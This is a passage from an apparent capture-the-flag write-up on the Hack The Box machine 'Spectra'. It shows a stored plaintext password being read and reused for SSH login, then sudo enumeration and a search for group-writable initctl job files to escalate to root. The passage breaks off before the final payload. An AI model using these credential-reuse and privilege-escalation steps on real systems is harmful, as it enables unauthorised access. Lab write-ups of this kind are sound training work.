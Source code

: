 ```bash
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
end scriptc

cd /etc/autologin
ls -al
total 12
drwxr-xr-x  2 root root 4096 Feb  3 16:43 .
drwxr-xr-x 63 root root 4096 Feb 11 10:24 ..
-rw-r--r--  1 root root   19 Feb  3 16:43 passwd
cat passwd
SummerHereWeCome!!
```

The password was then reused to login as `katie`:
```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Spectra]
└─$ ssh katie@10.10.10.229
Password:
katie@spectra ~ $ whoami
katie
```

## Privilege Escalation
Enumerating `katie` privileges it was noticed that she was part of the `developers` group and she was able to run `/sbin/initctl` with high privileges:
```bash
katie@spectra /etc/init $ whoami
katie
katie@spectra /etc/init $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)

katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

`initctl` is a tool used to **start and stop jobs**. Available jobs are usually located under `/etc/init/`. Searching for writable .conf file it turned out that **multiple test file** was owned by root but **allowed write permission** to the member of the `developers` group:
```bash
katie@spectra /etc/init $ find /etc/init -gid 20158
/etc/init/test6.conf
/etc/init/test7.conf
/etc/init/test3.conf
/etc/init/test4.conf
/etc/init/test.conf
/etc/init/test8.conf
/etc/init/test9.conf
/etc/init/test10.conf
/etc/init/test2.conf
/etc/init/test5.conf
/etc/init/test1.conf
```
